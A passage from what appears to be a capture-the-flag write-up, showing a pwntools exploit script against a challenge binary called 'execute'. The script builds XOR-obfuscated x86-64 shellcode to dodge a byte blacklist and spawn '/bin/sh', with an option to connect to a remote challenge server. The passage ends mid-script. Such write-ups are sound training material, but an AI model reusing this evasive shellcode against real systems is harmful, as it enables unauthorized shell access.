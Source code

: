 ```bash
```

We successfully bypass the backlist!

## Exploit

```python
#!/usr/bin/python3

from pwn import *

# context.log_level = 'debug'
exe = context.binary = ELF('./execute', checksec=False)

# Shorthanding functions for input/output
info = lambda msg: log.info(msg)
s = lambda data: p.send(data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
sla = lambda msg, data: p.sendlineafter(msg, data)
sn = lambda num: p.send(str(num).encode())
sna = lambda msg, num: p.sendafter(msg, str(num).encode())
sln = lambda num: p.sendline(str(num).encode())
slna = lambda msg, num: p.sendlineafter(msg, str(num).encode())
r = lambda: p.recv()
rl = lambda: p.recvline()
rall = lambda: p.recvall()

# GDB scripts for debugging
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''

c
''')

p = remote('94.237.57.222',53132) if args.REMOTE else process(argv=[exe.path], aslr=False)
if args.GDB:
    GDB()
    input()

# ===========================================================
#                          EXPLOIT
# ===========================================================

blacklist = b"\\x3b\\x54\\x62\\x69\\x6e\\x73\\x68\\xf6\\xd2\\xc0\\x5f\\xc9\\x66\\x6c\\x61\\x67"

shellcode = asm(
    '''
    mov rdi, 0xff978cd091969dd0
    xor rdi, 0xffffffffffffffff

    push rdi
    mov rdi, rsp

    push rax
    mov rsi, rax
    mov rdx, rax

    push 0x3a
    pop rax
    add al, 0x1
    syscall
```